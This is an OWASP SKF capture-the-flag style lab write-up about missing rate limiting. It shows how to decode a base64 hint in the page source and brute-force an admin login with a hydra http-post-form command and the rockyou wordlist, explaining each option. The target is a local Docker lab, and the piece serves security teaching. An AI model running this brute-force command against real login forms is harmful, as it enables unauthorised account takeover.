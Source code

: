 # KBID 29 - Rate Limiting \(RL\)

## Running the app

```text
$ sudo docker pull blabla1337/owasp-skf-lab:ratelimiting
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:ratelimiting
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

![Docker Image and write-up thanks to defev!](.gitbook/assets/logo.defdev.1608z.whtonblk.256.png)

## Reconnaissance

![Alt text](https://i.postimg.cc/8zyR0bLX/loginform.jpg "Login Form")


The application shows a admin login form, but we don't have the credentials, we'll have to somehow login inorder to solve the challenge, the name of the
challenge is 'Ratelimiting', from that we know that we need to bruteforce login, but what would be the username?



Let's do more investigation, upon viewing the source code, there is a base64 message commented out there.


![Alt text](https://i.postimg.cc/d0L2PTBs/sourcecode.jpg "Source Code")



<!-- dev metadata: RGV2ZWxvcGVyIHVzZXJuYW1lOiBkZXZ0ZWFtCkNsaWVudDogUm9ja3lvdQ== -->
We are going to decrypt the base64 encoded string using terminal as shown in the below image.

![Alt text](https://i.postimg.cc/qMxX8rqT/base64decoding.jpg "Base64 Decode")
```
abhi@sh3ll:~$ echo 'RGV2ZWxvcGVyIHVzZXJuYW1lOiBkZXZ0ZWFtCkNsaWVudDogUm9ja3lvdQ==' | base64 --decode
abhi@sh3ll:~$ Developer username: devteam
abhi@sh3ll:~$ Client: Rockyou
```

From this, it seems that the developer has an account with username devteam, so we probably need to bruteforce into that =)
Client, rockyou? Are we referring to the rockyou wordlist? 


Rockyou Wordlist - https://github.com/danielmiessler/SecLists/blob/master/Passwords/Leaked-Databases/rockyou-20.txt

So we'll have to bruteforce the login form which is post based using some tool, I prefer hydra & burp suite's intruder to do this, in this writeup, i'll demonstrate this using hydra.


## Bruteforcing using Hydra


```


hydra -l devteam -P Desktop/pentest/rockyou.txt 0.0.0.0 -s 1332 http-post-form "/:username=^USER^&password=^PASS^:F=Invalid"

let's make this clear since it might be confusing for newbies or those who have never used hydra before.

-l denotes username here.
-P denotes the location of the wordlist with the passwords
0.0.0.0 is the host address
-s denotes the target port.
http-post-form is used to specify that this is a http-post-form.
 "/:username=^USER^&password=^PASS^ <-- These are the post parameters which are being bruteforced.
 F=Invalid <-- This parameter is used to filter out invalid logins.
 
 ```

 
After you launch a bruteforce attack against the login function, after several minutes, you'll get the password like the below screenshot.


![Alt text](https://i.postimg.cc/HLRQpsZQ/bruteforcesuccess.jpg "Bruteforce Success")



## Additional sources

Please refer to the OWASP's guide for protecting against such type of bruteforce attacks which happens because ratelimiting is not set.

{% embed url="https://www.owasp.org/index.php/Blocking_Brute_Force_Attacks" caption="" %}

